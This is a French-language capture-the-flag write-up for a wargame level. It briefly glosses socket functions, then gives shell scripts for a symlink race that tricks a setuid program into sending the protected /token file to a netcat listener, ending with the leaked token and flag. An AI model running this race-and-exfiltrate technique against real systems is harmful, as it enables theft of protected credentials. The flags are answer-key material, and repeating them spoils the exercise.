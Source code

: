 # Level 10

## Recherche
---
socket : Socket programming is a way of connecting two nodes on a network to communicate with each other. One socket(node) listens on a particular port at an IP, while the other socket reaches out to the other to form a connection. The server forms the listener socket while the client reaches out to the server.

fflush : fflush() is typically used for output stream only. Its purpose is to clear (or flush) the output buffer and move the buffered data to console (in case of stdout) or disk (in case of file output stream). Below is its syntax.

exit : exit() terminates the calling process without executing the rest code which is after the exit() function. 

htons : The htons function converts a u_short from host to TCP/IP network byte order (which is big-endian).

connect : The connect() function establishes the connection of a socket between a client and a server.

puts : used to write a line or string to the output( stdout ) stream. It prints the passed string with a newline and returns an integer value. The return value depends on the success of the writing procedure.

dans un terminal avec ssh ouvert sur la vm creer ce script dolink
il va supprimer si ca existe et recreer un lien symbolique entre token et tmpflag10
#!/bin/sh
while [1]
do 
	rm -rf /tmp/flag10
	touch /tmp/flag10
	rm -rf /tmp/flag10
	ln -s /token /tmp/flag10
done

dans un autre terminal avec ssh ouvert sur la vm creer ce script uselink
la c'est juste bourrin, il va forcer la connexion pour qu'il y en ait une qui passe entre le moment ou ca check le fichier et le moment ou ca check la connexion, il y en a toujours au moins 1/5 qui passe
#!/bin/sh
while [1]
do 
	./level10 /tmp/flag10 192.168.56.101
done

la ligne qui suit, a effectuer dans 1 3eme terminal, permet de lire la sortie d'avant, et donc recuperer le flag, pour avoir le getflag
nc -kl 6969


.*( )*.
.*( )*.
.*( )*.
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
.*( )*.
.*( )*.
.*( )*.

---
## Flag : feulo4b72j7edeahuete3no7c
---
## Sitographie

